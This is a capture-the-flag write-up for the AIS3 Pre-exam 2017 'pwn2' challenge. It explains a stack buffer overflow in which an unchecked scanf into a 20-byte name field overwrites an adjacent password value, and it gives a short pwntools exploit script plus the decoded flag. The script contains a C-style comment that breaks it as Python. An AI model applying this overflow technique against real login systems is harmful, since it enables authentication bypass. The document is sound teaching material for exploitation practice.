

#AIS3 Pre-exam 2017: pwn2



##Solution
Windows Binary... QQ

A simple buffer overflow:
```
struct user {
	char name[20];
	int pass;
} ais3_user;

...snip...

printf(" Username : ");
scanf("%s",ais3_user.name);
printf(" Password : ");
scanf("%d", &password);
```

The ais3_user.name doesn't check the length of input, so the 21~24 chars will overflow to ais3_user.pass.
We can control the value of ais3_user.pass, so we can login the system.
The output flag is encrypted by xor-ing the password, so we have to xor the password to decrypt it.

```python
#!/usr/bin/env python

from pwn import *

host = "quiz.ais3.org"
port = 56746

r = remote(host, port)

r.recvuntil(': ')
payload = 'a' * 20 + 'b' * 4
r.sendline(payload)

r.recvuntil(': ')
payload = '1650614882' // = 0x62626262
r.sendline(payload)

r.recvuntil(':')
r.recvuntil(':')
r.sendline('1')

r.recvuntil(': ')
flag = r.recvline()
print repr("".join([chr(ord('b') ^ ord(flag[i])) for i in range(len(flag))]))

r.interactive()
```

Flag:
>ais3{Just_a_simpl3_overflow}
